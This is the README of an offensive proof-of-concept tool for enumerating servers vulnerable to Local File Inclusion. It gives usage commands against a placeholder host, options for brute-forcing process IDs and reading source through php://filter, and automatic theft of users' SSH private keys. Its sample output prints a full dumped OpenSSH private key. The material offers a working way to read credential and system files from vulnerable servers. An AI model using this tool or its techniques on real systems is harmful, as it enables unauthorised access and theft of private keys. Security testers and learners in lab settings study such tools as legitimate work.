 Local File Inclusion Enumeration (PoC)  

Almost whole system enumeration when target is vulnerable to LFI.  

```zsh
Local File Inclusion Enumerator v1.0 by 0bfxgh0st*
Usage python3 lfienum <url> <option>

Options:

    --pid                Bruteforce 999 process id
    --wrapper            (php://filter/convert.base64-encode/resource=)
    -w or --wordlist     Use a custom wordlist
    -k or --key          Extract id_rsa key

Examples:

    python3 lfienum "http://ghost.server/index.php?page="
    python3 lfienum "http://ghost.server/index.php?page=" --pid
    python3 lfienum "http://ghost.server/index.php?page=" --wrapper index.php
    python3 lfienum "http://ghost.server/index.php?page=" --wordlist wordlist.txt
    python3 lfienum "http://ghost.server/index.php?page=" --key
```

Auto id_rsa key extraction from /etc/passwd, check `def IdRSA():` function  
Output example:  
```
...

> ghost id_rsa private key
dumped from http://ghost.server/index.php?page=/home/ghost/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABDRScoSFO
Tk3d1A0K1kYCQzAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQC5SLRm3gjC
mXU6nHisg7VT0UxRTuoyL9IkiV9xPjdx44fTujyqsmjS+VjKyhGiTw+UB3jDZr81jCv4DO
WiwRc+A7PxnBA0qP1UU9OxuVaSgetSHCbjTNU4UlCPDBo2iZV2gw17CzuwGqa3Yz/UWoUV
KxKU+vMwO+evzUkL3w1LoAWKvWG0VfAdRh4rqXKsNDHoTdWBWLvLCx7PkBH8fF6+OIM+Lq
NM1tVQYuSHpAoNbj5bnGwLEt4Z8GqyZELdaNt8lc7XdO8YbAmPN/boyEZd9KRO/FdeuayE
yRQygxpz25goYGuj+Gdg3uQFEScDtYyUKwpsUsNDv1q0KOLWntT+5I8bHwME6ozqBBRba9
5K7kbCxLLwHxvN7E+dMFxH2e1J3uax1d/h5D1JNrJpi0KsFeycPL6Hr2StfNORRhdXEKGd
HudCjvhjRx27rAEwVBj/gcTS5Esu5sd0R5ToXb1ukT/lFhXjsW3qHYHexjbZQ7kSJPxJrg
KhOPkQ0YeBYzJzS9ffFjIZdTUBcLuE518rNKnKezPl7H9TNNnuHRgL/XycbrfUVWQVS+yo
aW6jjhykuO43zeiTNe/tyJUkBlJu5vs4xM1aDMSQW6fn2iVDrRbxY0lzq11fT59RbIQXzv
fL9B4SSMC6ccKVJlyYNLTZVpPyOonFvy6hThflpkhA/mGVgMvDyiwxLx/5+odvRRD7Gg0w
vyRsUY5/8RfNIZelJ731cwccRbbNfUmUbOcSG0yPMrBdGUldSwiqI9XyswM/goLzIKPC/7
UKQmKZ8oy7B5utVOW5aWqZCFe+shV8qPvaS/4bUaykQMdcFclbD22Pinwx6X6DHnGcmRtF
m+1QuC+jT23hAtJbqsafYQ61sUxkAQUExKdBQ+l7l6a0OZhG+L28P7xuQ7wwhhX6PpeKmD
HO1fvy1tu3wuQ9MAHGqMP+W2CJMVt3W4SvMasLIklPWDjy5iaii4WJkijIHopldyyL7wJ7
QRcxfhQ+4r+6virvZEo/2CkWtIhi8IcyPx6bQA54iu9eKkZE1gOdyDJogIrvkv+787rAlL
skyX2Q==
-----END OPENSSH PRIVATE KEY-----
```
Internal wordlist from sources:  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt  
